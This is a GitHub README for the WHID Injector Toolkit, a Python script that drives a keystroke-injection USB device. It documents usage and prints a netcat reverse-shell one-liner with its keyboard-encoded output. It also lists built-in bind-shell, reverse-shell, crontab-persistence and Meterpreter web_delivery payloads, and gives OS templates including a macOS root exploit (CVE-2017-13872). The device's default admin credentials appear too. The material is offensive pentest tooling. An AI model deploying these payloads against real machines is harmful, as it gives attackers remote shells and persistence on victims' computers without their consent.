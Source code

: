 # WHID Injector Toolkit
What is it ? It's a simple script to send commands (french keyboard) from your terminal to the WHID Injector. It will automatically convert the "azerty" to "qwerty" format if you're lazy. Furthermore it has builtins payload such as reverse-shell and bind-shell.

![whid-picture](https://github.com/swisskyrepo/WHID_Toolkit/blob/master/screenshots/whid.png?raw=true)

**Warning** : Newest version of WHID Toolkit expect the WHID to have a firmware in the prefered language, alternatively you can force the french keyboard with the english firmware using the `--force` arguments. For more customization informations go to swisskyrepo.github.io .

Where to buy a WHID Injector ? I got mine from [Aliexpress](https://www.aliexpress.com/item/Cactus-Micro-compatible-board-plus-WIFI-chip-esp8266-for-atmega32u4/32318391529.html)

## How to start
 1. Connect to the Access Point with the SSID "**Exploit**" with a password of "**DotAgency**".   
 2. Open a web browser pointed to "**http://192.168.1.1**"   
    > The default administration username is "**admin**" and password "**hacktheplanet**".       

 3. Remember to upgrade the firmware you will find the latest version in this repository  

More info on the official Github : https://github.com/whid-injector/WHID


## How to use the script
```c
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt -h                 
usage: WHIDInjector.py [-h] [-v] [--host [HOST]] [--port [PORT]]
                       [--user [USER]] [--pass [PASS]] [--panel [PANEL]]
                       [--payload [PAYLOAD]]

optional arguments:
  -h, --help           show this help message and exit
  -v                   Verbosity of the output
  --host [HOST]        Host reverse-shell
  --port [PORT]        Port reverse-shell
  --user [USER]        Wifi Panel username
  --pass [PASS]        Wifi Panel password
  --panel [PANEL]      Wifi Panel password
  --payload [PAYLOAD]  Payload template
```

Targeting a Windows OS
```c
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt
```

Send a simple reverse-shell payload
```
$ python3 WHIDInjector.py -v --host 127.0.0.1 --port 4444
     -------------------------------------------------------------
      WHID injector - You need to be connected to the Exploit AP
     -------------------------------------------------------------
                   __   °
                 <(o )___
                  ( ._> /
                   `---'                      @pentest_swissky

Enter a payload, eg: bash -c 'nohup ncat 127.0.0.1 4242 -e $SHELL &'
-------------------------------------------------------------------
>>> reverse
Payload:
Rem:Default Payload
Press:130+195
CustomDelay:1000
Print:bqsh 6c 4nohup ncqt !@&<)<)<! $$$$ 6e ]SHELL 14
CustomDelay:1000
Press:176

Sending payload to http://192.168.1.1/runlivepayload
```

## Payloads and commands
| Commands       | Description                           |
| :------------- | :-------------                        |
| bind           | initiate a bind shell on results.port |
| reverse        | initiate a reverse shell on results.host and results.port |
| crontab        | set up a crontab reverse shell on results.host and results.port |
| meterpreter [https://YOUR_SERVER_IP:4646/posh-payload] | use exploit/multi/script/web_delivery with a posh-payload    |
| send some text | send the specified text              |
| h              | help                                 |
| q              | quit                                 |

You can change the options with `SET option_name option_value`
```c
>>> set host 192.168.1.12
>>> set port 4444
```

At the moment the following templates are available, feel free to add more:

| Template | Description |
| :------------- | :------------- |
| payloads/osx_high_sierra_root.txt | CVE-2017-13872 |
| payloads/osx.txt     | execute a command with [Cmd]+[Space] |
| payloads/windows.txt | execute a command with [Windows]+[R] |
| payloads/i3.txt      | execute a command with [Windows]+[Enter] |
| payloads/gnome.txt | execute a command with [Alt]+[F2] |
| payloads/default.txt | default behavior is the gnome command |

NOTE: The i3 payload uses the [Windows] key as the default modifier, some people prefer to use [CTRL]
